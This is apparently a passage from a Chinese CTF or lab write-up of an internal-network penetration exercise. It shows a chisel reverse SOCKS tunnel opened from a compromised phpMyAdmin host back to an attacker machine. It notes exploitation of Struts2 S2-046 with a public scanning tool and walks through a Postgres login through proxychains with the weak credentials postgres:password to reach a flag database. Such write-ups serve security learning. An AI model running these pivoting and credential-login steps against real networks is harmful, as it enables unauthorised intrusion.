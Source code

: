 :::warning

需要注意，在二层内网中，代理主服务器的地址不能是 Kali 的地址，而应该是建立了端口转发的 phpMyAdmin 的地址

:::

然后在 `phpMyAdmin` 上建立代理隧道

```bash
da2bf9a19d9a:/tmp# ./chisel_1.9.1_linux_amd64 client 10.85.101.3:1331 R:0.0.0.0:10005:socks
<amd64 client 10.85.101.3:1331 R:0.0.0.0:10005:socks
2024/07/25 06:57:34 client: Connecting to ws://10.85.101.3:1331
2024/07/25 06:57:35 client: Connected (Latency 32.878827ms)
```

成功建立代理

```bash title="Kali"
2024/07/25 14:57:35 server: session#20: tun: proxy#R:10005=>socks: Listening
```

## Struts2 S2-046

通过 socks 访问服务

![img](img/image_20240701-150146.png)

使用 [abc123info/Struts2VulsScanTools](https://github.com/abc123info/Struts2VulsScanTools) 直接利用

![img](img/image_20240703-150313.png)

## flag - phpMyAdmin

![img](img/image_20240706-150633.png)

## Postgres 弱密码

根据之前 `fscan` 的结果，已经得知 Postgres 服务的凭据为 `postgres:password`

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 pgcli -h 172.56.102.2 -u postgres
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
Password for postgres:
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
Server: PostgreSQL 16.3
Version: 4.1.0
Home: http://pgcli.com
postgres> \l
+-----------+----------+----------+------------+------------+-----------------------+
| Name      | Owner    | Encoding | Collate    | Ctype      | Access privileges     |
|-----------+----------+----------+------------+------------+-----------------------|
| flag      | postgres | UTF8     | en_US.utf8 | en_US.utf8 | <null>                |
| postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 | <null>                |
| template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres           |
|           |          |          |            |            | postgres=CTc/postgres |
| template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres           |
|           |          |          |            |            | postgres=CTc/postgres |
+-----------+----------+----------+------------+------------+-----------------------+
SELECT 4
Time: 0.043s
```
